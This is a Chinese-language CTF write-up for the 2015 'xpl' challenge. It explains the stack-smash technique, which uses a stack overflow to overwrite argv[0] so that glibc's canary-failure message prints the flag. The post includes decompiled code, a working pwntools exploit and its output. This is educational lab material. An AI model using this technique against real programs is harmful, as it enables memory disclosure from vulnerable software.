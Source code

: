 ```yaml
---
layout: post
title: pwn prectf2015 xpl
excerpt: "prectf2015 xpl wirteup"
categories: [Writeup]
comments: true
---
```


#### Stack smash
在程序加了 canary 保护之后，如果我们读取的 buffer 覆盖了对应的值时，程序就会报错，而一般来说我们并不会关心报错信息。而 stack smash 技巧则就是利用打印这一信息的程序来得到我们想要的内容。这是因为在程序启动 canary 保护之后，如果发现 canary 被修改的话，程序就会执行 `__stack_chk_fail` 函数来打印 argv[0] 指针所指向的字符串，正常情况下，这个指针指向了程序名。其代码如下：
```c
void __attribute__ ((noreturn)) __stack_chk_fail (void)
{
  __fortify_fail ("stack smashing detected");
}
void __attribute__ ((noreturn)) internal_function __fortify_fail (const char *msg)
{
  /* The loop is added only to keep gcc happy.  */
  while (1)
    __libc_message (2, "*** %s ***: %s terminated\n",
                    msg, __libc_argv[0] ?: "<unknown>");
}
```
所以说如果我们利用栈溢出覆盖 argv[0] 为我们想要输出的字符串的地址，那么在 __fortify_fail 函数中就会输出我们想要的信息。


file
```bash
file xpl 
xpl: ELF 64-bit LSB executable, x86-64, version 1 (GNU/Linux), statically linked, for GNU/Linux 2.6.24, BuildID[sha1]=1856a84cc2663caa91e1511a2f0691652201fb95, not stripped
```
chechsec
```python
>>> from pwn import *
>>> print ELF('xpl').checksec()
[*] '/root/sploitfun/pre-ctf-2015/xpl'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```
ida打开binary,发现read函数存在栈溢出
```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  __int64 v3; // rax@1
  int result; // eax@4
  __int64 v5; // rcx@4
  __int64 v6; // [sp+18h] [bp-118h]@1
  char v7; // [sp+20h] [bp-110h]@2
  char v8; // [sp+A0h] [bp-90h]@2
  __int64 v9; // [sp+128h] [bp-8h]@1

  v9 = *MK_FP(__FS__, 40LL);
  putenv("LIBC_FATAL_STDERR_=1", argv, envp);
  LODWORD(v3) = fopen64("flag.txt", "r");
  v6 = v3;
  if ( v3 )
  {
    fgets(&v7, 32LL, v3);	//读取32个字节到v7中
    fclose(v6);
    printf((__int64)"Interesting data loaded at %p\nYour username? ", &v7, argv);	//读取的内容在这里
    fflush(0LL, &v7);
    read(0LL, &v8, 1024LL);		//这里存在明显的栈溢出
  }
  else
  {
    puts("Error leyendo datos");
  }
  result = 0;
  v5 = *MK_FP(__FS__, 40LL) ^ v9;
  return result;
}
```

一般存到EBP - 0x4(32位)或RBP - 0x8(64位)的位置，也就是ebp\rbp的上一个位置.如果攻击者利用栈溢出修改到了这个值，导致该值与存入的值不一致，__stack_chk_fail()函数将抛出异常并退出程序。

最终的exp
```python
from pwn import *

sh = process("./xpl")
addr = int(sh.recvline().split()[4], 16)        #这个地址就是flag.txt内容地址

payload = "A" * 376+p64(addr)                   #这个就是盖掉了main()函数中第0个参数(就是文件名称)
sh.sendline(payload)
result = sh.recvall()       ##canary检测到了异常,__stack_chk_fail 函数来打印 argv[0] 指针所指向的字符串
print result
```

最终的结果
```
python exp.py 
[+] Starting local process './xpl': pid 5667
[+] Receiving all data: Done (72B)
[*] Process './xpl' stopped with exit code -6 (SIGABRT) (pid 5667)
Your username? *** stack smashing detected ***: thisismorty
```